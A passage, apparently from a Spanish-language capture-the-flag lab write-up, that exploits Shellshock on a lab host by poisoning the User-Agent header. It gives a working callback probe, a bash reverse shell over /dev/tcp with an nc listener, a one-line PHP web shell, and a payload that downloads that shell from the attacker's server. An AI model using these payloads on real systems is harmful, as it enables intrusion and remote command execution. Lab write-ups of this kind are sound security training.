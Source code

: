 ```bash
python3 -m http.server 80
```

Ahora lanzamos una peticion envenenando el **UserAgent**
```bash
# Comandos para explotación
curl -I -sL -X GET http://172.17.0.2/pruebasUltraSecretas/index.php -H 'User-Agent: () { :; }; curl http://172.17.0.1/test'
```

Vemos que hemos recibido una solicitud de la maquina victima a nuestra maquina de atacante:
```bash
172.17.0.2 - - [26/Jun/2025 00:47:55] code 404, message File not found
172.17.0.2 - - [26/Jun/2025 00:47:55] "GET /test HTTP/1.1" 404 -
```
### Intrusion
Ahora nos ponemos en escucha para ganar acceso al target
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
curl -I -sL -X GET http://172.17.0.2/pruebasUltraSecretas/index.php -H "User-Agent: () { :; }; echo; /bin/bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'"
```

**Nota** Aunque logramos ganar acceso, Nos cierran la sesion asi que subiremos un archivo malicioso y nos aprovecharemos para cargar una llamada a nivel de sistema que nos permita ejecutar comandos:
Creamos el archivo: **cmd.php**
```php
<?php
  system($_GET["cmd"]);
?>
```

Ahora nos montamos un servidor python por el puerto 80 para que este accesible nuestro archivo malicioso
```bash
python3 -m http.server 80
```

Ahora que esta accesible el archivo realizamos la peticion envenenando de nuevo el **UserAgent** para que cargue nuestro archivo en el servidor:
```bash
curl -I -sL -X GET http://172.17.0.2/pruebasUltraSecretas/index.php -H "User-Agent: () { :; }; curl http://172.17.0.1/cmd.php -o cmd.php"
```

Sabemos que se cargo con exito ya que en nuestro servidor de atacante recibimos una peticion:
```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [26/Jun/2025 01:00:08] "GET /cmd.php HTTP/1.1" 200 -
```

Ahora podemos cargar nuestro archivo:
```bash
http://172.17.0.2/pruebasUltraSecretas/cmd.php
```
